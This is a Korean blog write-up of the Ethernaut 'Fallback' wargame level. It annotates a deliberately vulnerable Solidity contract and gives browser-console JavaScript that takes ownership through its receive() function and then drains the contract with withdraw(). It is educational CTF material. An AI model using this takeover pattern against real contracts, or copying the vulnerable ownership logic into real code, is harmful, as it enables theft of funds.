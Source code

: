 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 1) Fallback 
date: '2022-01-02 01:11:00'
author: 한성원
tags: ethernaut fallback vulnerability
categories: 취약점분석
---
```



# 👋 1. Fallback
__Difficulty 1/10__

직접 푼 Ethernauts 풀이를 적어보려고 한다. 취약점에 공부했던 취약점을 실제로 공격해보며 복습 및 실습을 해볼수 있어 좋은 것 같다.

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract의 ownership을 뺐어오기
- contract의 balance를 0으로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

    using SafeMath for uint256;

    // 각각의 address당 ether 기여도(contribution)
    mapping(address => uint) public contributions;

    // Fallback Contract의 owner address
    address payable public owner;

    //constructor
    constructor() public {
        // Deployer를 owner로 설정
        owner = msg.sender;

        // Deployer의 기여도를 1000 ether로 설정
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //Owner만 사용할 수 있게하는 modifier
    modifier onlyOwner {
            // msg.sender가 owner인지 아닌지 확인
            require(
                msg.sender == owner,
                "caller is not the owner"
            );
            _;
        }

    //contract의 기여도를 올릴 수 있는 function이다.
    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    function contribute() public payable {
        //msg.sender가 보낸 ether의 양이 0.001 이하인지 확인
        require(msg.value < 0.001 ether);

        //msg.sender의 기여도(contributions)를 msg.value만큼 올린다.
        contributions[msg.sender] += msg.value;

        //만약 msg.sender의 contributions가 owner의 contributions보다 크다면 ownership이 transfer된다.
        //초기에 owner의 contributions은 1000 ether이기 때문에 ownership을 바꾸기 위해서는 1000 ether이상의 기여해야한다.
        if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
        }
    }

    //기여도를 확인할 수 있는 view function
    function getContribution() public view returns (uint) {
        //msg.sender의 기여도를 return 한다.
        return contributions[msg.sender];
    }

    //contract가 가지고 있는 모든 balance(ether)를 owner에게 전송한다.
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    //receive function
    receive() external payable {
        //msg.sender의 msg.value가 0보다 크고 기여도(contributions)가 0보다 큰지 확인한다
        require(msg.value > 0 && contributions[msg.sender] > 0);

        //owner를 msg.sender로 바꾼다.
        owner = msg.sender;
    }
}
```

- - -

## 풀이
우리는 2가지의 문제를 풀어야 한다.
1. contract의 ownership을 뺐어오기
2. contract의 balance를 0으로 만들기

차례차례 풀어보겠다.
코드를 봤을 떄 contract의 ownership을 가져올 수 있는 방법은 2가지가 있다.
- contribute()
- receive()

1. contribute()를 이용해 owner가 되려면 초기 owner의 contributions 1000 ether보다 더 큰 돈을 contract로 보내야 한다.
2. 하지만 contribute()의 require을 보면 한번에 0.001 ether이하의 ether만 보낼 수 있게 되어있다. contract에서 의도한대로 owner가 되려면 __1,000,000 + a__ 번 전송해야한다. 
3. 이 방법은 비용도 많이들고 엄청난 시간이 걸리기 때문에 receive 함수를 확인해보자!
4. receive 함수를 보면 msg.value나 0보다 크고 contributions가 0보다 크면 owner를 msg.sender로 바꿀 수 있다.
5. 그렇다면 contribute() 호출해 작은 값을 보내어 contributions를 0을 초과하게 만든다음 receive함수를 호출하면 owner를 가져올 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
//0.001보다 작은 0.0001을 보낸다.
await contract.contribute.sendTransaction({value:toWei('0.0001')})
//나의 contribution을 확인한다.
fromWei(await contract.getContribution())
//contract의 balance를 확인한다.
await getBalance(instance)
//모두 0.0001과 같을 것이다!

//나의 contribution이 0을 초과했으니 recevice()를 실행 시킬 수 있는 명령어를 실행한다.
contract.sendTransaction({value:toWei('0.0001')})
//contract의 owner address를 확인한다.
await contract.owner()
//나의 address를 확인한다.
player
//play(나)이 owner가 된 것을 확인 할 수 있다.

```
이렇게 ownership을 가져올 수 있었다.   

다음으로 contract의 balance를 0으로 만들기이다. 
contract의 balance를 0을로 만들기는 매우 쉽다!
owner만 call할 수 있는 함수인 withdraw을 call하기만 하면 된다.

```javascript
//withdraw한다.
await contract.withdraw()

//contract의 balance가 0이 된것을 확인한다.
await getBalance(instance)
```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 다음과 같이 뜨면서 다음 level로 넘어갈 수 있다.

![fallback finish](./fallback_finish.png)

- - -
## 마무리
얼마전에 공부했던 king of Ether(DOS with unexpected revert)가 생각난다. revert를 통해 하는 ownership을 가져오는건 아니었지만 비슷한 점이 많은 것 같았다. smart contract을 짤때 logic은 괜찮아보여도 우리가 생각하지 못한 허점이 있을 수 있다! 항상 조심하고 또 조심하자!
나중에는 보안감사(auditing)도 배워 내의 smart contract를 audit 할 수 있었으면 좋겠다! ~~이거로 취업 해야지ㅎ~~

고작 1단계를 완료한 것이지만 게임을 통해 배우니 더 재밌는 것 같다. 앞으로도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/

```toc

```